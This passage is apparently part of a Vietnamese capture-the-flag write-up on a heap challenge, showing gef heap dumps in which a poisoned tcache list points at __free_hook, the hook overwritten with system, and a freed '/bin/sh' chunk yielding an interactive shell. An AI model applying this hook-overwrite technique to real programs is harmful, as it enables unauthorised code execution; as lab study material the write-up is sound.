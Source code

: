 Sau lần malloc thứ 3 ta sẽ được như này

```java
gef➤  heap chunks
Chunk(addr=0xd58010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000d58010     02 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0xd582a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000d582a0     31 40 40 00 00 00 00 00 00 00 00 00 00 00 00 00    1@@.............]
Chunk(addr=0xd582c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000d582c0     48 2e 17 2c 8b 7f 00 00 10 80 d5 00 00 00 00 00    H..,............]
Chunk(addr=0xd582e0, size=0x20d30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
gef➤  heap bins
───────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ─────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x20, count=2] ←  Chunk(addr=0xd582c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x7f8b2c172e48, size=0x0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
─────────────────────────────────────────────────────────────────────────── Fastbins for arena at 0x7f8b2c170b80 ───────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
───────────────────────────────────────────────────────────────────────── Unsorted Bin for arena at 0x7f8b2c170b80 ─────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in unsorted bin.
────────────────────────────────────────────────────────────────────────── Small Bins for arena at 0x7f8b2c170b80 ──────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
────────────────────────────────────────────────────────────────────────── Large Bins for arena at 0x7f8b2c170b80 ──────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/x 0x7f8b2c172e48
0x7f8b2c172e48 <__free_hook>:   0x0000000000000000
```
Thấy hẳn 2 con trỏ Fd và Bk trong chunk luôn :v

```java
0x00007f8b2c172e48 → 0x00007f8b2bfd6290 → <system+0> endbr64
```
Giờ gửi /bin/sh và free để tạo shell

```java
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[*] Switching to interactive mode
 $ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x35 bytes:
    b'chall1\tchall1.i64  ld-2.31.so\tlibc-2.31.so  solve.py\n'
chall1    chall1.i64  ld-2.31.so    libc-2.31.so  solve.py
$
```
Script dài quá nên mình sẽ k để ở file riêng =))

*Bài này vẫn còn nhiều thiếu sót mình sẽ nghiên cứu thêm và bổ sung cho nó chi tiết hơn sau*